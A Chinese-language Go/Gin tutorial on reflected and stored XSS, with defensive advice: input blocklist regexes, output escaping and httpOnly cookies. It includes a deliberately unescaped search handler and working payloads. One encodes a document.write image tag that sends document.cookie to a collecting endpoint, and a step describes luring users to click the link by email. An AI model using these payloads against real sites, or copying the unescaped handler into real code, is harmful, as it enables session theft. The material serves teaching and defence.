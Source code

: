 在web安全的领域中，xss攻击是最常见的一种攻击方式，xss攻击的核心思想就是在HTML页面中注入恶意代码获取敏感数据，比如cookie值；
xss分为三类：反射型、存储型、dom型，反射型xss和存储型xss属于服务器端的安全漏洞，而dom型xss属于前端自身的安全漏洞（本文忽略）；

### 反射型xss
本文用网站经常存在的搜索功能来演示反射型xss的攻击步骤；
```go
type KeywordField struct {
    Keyword string `form:"keyword" valid:"required~搜索关键词不能为空"`
}

func (ctr *Article) Search(c *gin.Context) {

	request := new(request.ArticleSearch)
	if err := c.Validate(request); err != nil {
		panic(err)
	}

	// 种两个用于演示的cookie
	c.SetCookie("token", "token123456", 86400*30, "/", "127.0.0.1", false, false)
	c.SetCookie("userID", "1", 86400*30, "/", "127.0.0.1", false, false)

	c.HTML(http.StatusOK, "search.tmpl", gin.H{
		"keyword": template.HTML(request.Keyword), // 为了方便演示，template.HTML会显示原始字符串，默认会自动对特殊符号转义，
	})
}
```
[源码链接](https://github.com/wizardshan/elegantGo/tree/main/app/chapter3.0)

正常传参请求：

```
http://127.0.0.1:8080/article/search?keyword=手机
```
<img src="images/2-1.jpg">

#### 第一步：确定注入点

```
http://127.0.0.1:8080/article/search?keyword=<script>alert('XSS')</script>
```
<img src="images/2-2.jpg">

#### 第二步：获取敏感信息
```
http://127.0.0.1:8080/article/search?keyword=<script>alert(document.cookie)</script>
```
<img src="images/2-3.jpg">

#### 第三步：收集敏感信息
```
http://127.0.0.1:8080/article/search?keyword=<script>document.write('<img src="http://127.0.0.1:8080/cookies?'+document.cookie+'"/>')</script>
这里的+号有问题，转义一下
http://127.0.0.1:8080/article/search?keyword=%3Cscript%3Edocument.write(%27%3Cimg%20src=%22http://127.0.0.1:8080/cookies?%27%2Bdocument.cookie%2B%27%22/%3E%27)%3C/script%3E
```
<img src="images/2-4.jpg">
服务器收集数据如下：
<img src="images/2-5.jpg">

#### 第四步：诱惑用户点击
把第三步精心设计的带有xss漏洞的url通过站内信或邮件的方式发给用户，内容为一些诱惑信息，目的是为了让用户单击链接，
服务器收集到cookie之后再以用户的身份登录网站。

反射型xss应用场景：搜索、查询等用户输入数据需要在前端展示的场景；

### 存储型xss
存储型xss恶意代码通常存储在数据库中，用户只需浏览了包含恶意代码的页面即可在用户无感知的情况下触发，
而反射性xss需要诱导用户点击，所以存储型xss危害性更大。

例1:<br>
攻击者在文章评论中提交了恶意代码，所有浏览过这条评论的用户都会被收集敏感数据。

例2:<br>
攻击者在网站留言板块中提交了恶意代码，管理员在后台查看留言触发恶意代码，导致后台地址、管理员cookie泄漏。

存储型xss应用场景：用户名、昵称、留言、用户反馈、个人信息、发表文章、评论、私信等用户输入数据需要在前端展示的场景；

> 存储型xss原理跟反射性大同小异，这里不做代码演示，有兴趣的小伙伴可以自行深入学习。

#### 总结
**1、当遇到用户输入数据并且需要在前端展示的业务场景时，需要特别小心xss攻击（前端包括网站前端和后台前端）。**

**2、用户输入数据需要进行严格校验过滤。**
```go
type KeywordField struct {
    Keyword string `form:"keyword" valid:"required~搜索关键词不能为空,CheckXSS~非法字符"`
}

var keywords = []string{
`(alert).*(\()`,
`(prompt).*(\()`,
`(eval).*(\()`,
`(window).*(\[)`,
`<script`,
`</script`,
`<x`,
`<X`,
`<http`,
`(function).*(\()`,
`<iframe`,
`(href).*(=)`,
`<br>`,
"alert`",
`(find).*(\()`,
`(top).*(\[)`,
`(vibrate).*(\()`,
`<object`,
`<embed`,
`<img`,
`<layer`,
`<style`,
`<meta`,
`=".*"`,
`<html`,
`(echo).*(\()`,
`(confirm).*(\()`,
`(write).*(\()`,
`</svg`,
`<div`,
`</image`,
`form>`,
`(vectors).*(\()`,
`<body`,
`(url).*(\()`,
`math>`,
`-->`,
`<!--`,
`<!attlist`,
`<label`,
`<%`,
`xmp>`,
`template>`,
`<!doctype`,
`=confirm`,
}

CheckXSS函数会检查参数是否包含keywords字符串数组里的恶意字符；
因为xss恶意代码还有很多变种，所以CheckXSS函数还会通过html转义、url转义、unicode转义、字符小写四个方面检测恶意字符；
xss-validator是github开源项目，简单化放在项目里使用；
```
**3、页面输出用户数据时进行转义。**
```go
c.HTML(http.StatusOK, "search.tmpl", gin.H{
    "keyword": template.HTML(request.Keyword),
})
```
未转义的html源代码：
<img src="images/2-7.jpg">

```go
c.HTML(http.StatusOK, "search.tmpl", gin.H{
    "keyword": request.Keyword,
})
```
转义后的html源代码：
<img src="images/2-8.jpg">

这种方式有小概率的局限性，比如用户输入数据框不是textarea文本框，而是具有更高自由度的富文本框，这时候转义就会出错，
这种情况下更要严格校验用户输入。
<img src="images/2-6.jpg">

**4、条件允许的情况下，cookie可以设置httpOnly。**
```go
c.SetCookie("token", "token123456", 86400*30, "/", "127.0.0.1", false, false)
//最后一个参数就是httpOnly参数，当设置为true时，document.cookie拿不到token值
```
这种方式也有局限性，很多公司前后端分离，前端调用后端接口需要把token放在header头里，js需要拿到token值，httpOnly参数不能设置为true。

通过两节内容讲解了sql注入和xss攻击的原理步骤和防范措施，目的是有理有据的让大家老老实实的做参数校验，不要偷懒，
参数校验是web安全的最重要一环。
